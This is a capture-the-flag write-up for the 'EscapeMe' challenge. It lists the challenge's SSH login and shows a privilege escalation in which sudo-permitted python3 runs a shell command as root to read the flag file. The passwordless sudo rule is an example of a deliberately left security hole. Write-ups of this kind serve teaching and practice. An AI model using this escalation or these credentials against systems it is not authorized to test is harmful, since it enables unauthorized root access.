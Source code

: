 ## EscapeMe

#### Solved by hieplpvip

```
Can you escape me!

ssh ctf@61.28.237.24 -p30402 password: hcmus-ctf

author: pakkunandy

p/s: the flag.txt is in the /home/ctf. If it is not exist. Please wait and then login again.
```

Let's check what we can run as root:

```
$ sudo -l
Matching Defaults entries for ctf on escapeme-5c599b968f-gwjcv:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User ctf may run the following commands on escapeme-5c599b968f-gwjcv:
    (ALL) NOPASSWD: /usr/bin/python3
```

We can run `python3` as root without password. We will use this to get the flag:

```
$ sudo python3
Python 3.6.9 (default, Jan 26 2021, 15:33:00)
[GCC 8.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.system("cat /home/ctf/flag.txt")
HCMUS-CTF{privilege_escalation_is_fun!!!}
```

The flag is `HCMUS-CTF{privilege_escalation_is_fun!!!}`
